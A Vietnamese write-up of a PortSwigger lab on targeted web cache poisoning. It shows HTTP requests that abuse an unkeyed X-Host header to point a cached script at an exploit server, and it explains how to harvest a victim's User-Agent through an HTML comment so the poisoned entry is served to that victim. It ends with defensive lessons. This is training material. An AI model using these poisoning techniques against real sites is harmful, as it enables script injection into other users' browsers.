







# Write-up: Targeted web cache poisoning using an unknown header

### Tổng quan
Khai thác lỗ hổng **Web Cache Poisoning** kết hợp **DOM-based XSS** trong ứng dụng web, nơi header `X-Host` là unkeyed và được reflect vào thuộc tính `src` của một script mà không được xử lý an toàn. Do header `Vary: User-Agent` yêu cầu khớp User-Agent của nạn nhân, kẻ tấn công lợi dụng tính năng comment HTML để lấy User-Agent, sau đó poison cache với `X-Host` trỏ đến Exploit Server chứa payload XSS, khiến trang chủ thực thi `alert(1)` trong trình duyệt nạn nhân.

### Mục tiêu
- Xác định header `X-Host` hỗ trợ cache poisoning, lấy User-Agent của nạn nhân qua comment HTML, và poison cache với payload XSS thông qua Exploit Server để thực thi `alert(1)` trong trình duyệt nạn nhân, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro (với extension Param Miner)
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác

#### 1. Tìm header hỗ trợ
- Sử dụng Param Miner và fuzz để tìm header, phát hiện header `X-Host` được server hỗ trợ.  
  

- Thử request với header `X-Host: example.com`:  
  ```
  GET / HTTP/2
  Host: 0as9026a27bc8901w0xy456700za00xw.web-security-academy.net
  X-Host: example.com
  ```  
- Kết quả: Giá trị `example.com` được reflect trong thuộc tính `src` của script trong response.  
  

#### 2. Khai thác web cache thực hiện XSS
- Thiết lập Exploit Server với payload XSS:  
  

- Gửi request với `X-Host` trỏ đến Exploit Server:  
  ```
  GET / HTTP/2
  Host: 0as9026a27bc8901w0xy456700za00xw.web-security-academy.net
  X-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
  ```  
- Kết quả: Header `Vary: User-Agent` ngăn XSS trên trình duyệt nạn nhân do User-Agent không khớp.  
  

- Lợi dụng tính năng comment HTML để lấy User-Agent của nạn nhân:  
  ```html
  
  ```  
- Kết quả: Thu thập được User-Agent của nạn nhân từ log của Exploit Server.  
  

- Sửa request với User-Agent của nạn nhân và gửi lại hai lần để đảm bảo cache hit:  
  ```
  GET / HTTP/2
  Host: 0as9026a27bc8901w0xy456700za00xw.web-security-academy.net
  X-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
  User-Agent: [Victim's User-Agent]
  ```  
- Kết quả: XSS thực thi thành công, `alert(1)` được chạy trong trình duyệt nạn nhân, lab hoàn thành.  
    
  

### Bài học rút ra
- Hiểu cách khai thác **Web Cache Poisoning** thông qua header unkeyed (`X-Host`), kết hợp lấy User-Agent của nạn nhân qua comment HTML để vượt qua kiểm tra `Vary: User-Agent` và thực thi XSS.  
- Nhận thức tầm quan trọng của việc xác thực và lọc header người dùng, đồng bộ hóa cache key với header `Vary`, và vô hiệu hóa cache cho các endpoint động để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Web Cache Poisoning** thông qua header unkeyed và kỹ thuật lấy User-Agent, nhấn mạnh tầm quan trọng của việc cấu hình cache an toàn và xử lý header để ngăn chặn thực thi mã độc trong trình duyệt nạn nhân. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 10/2025.*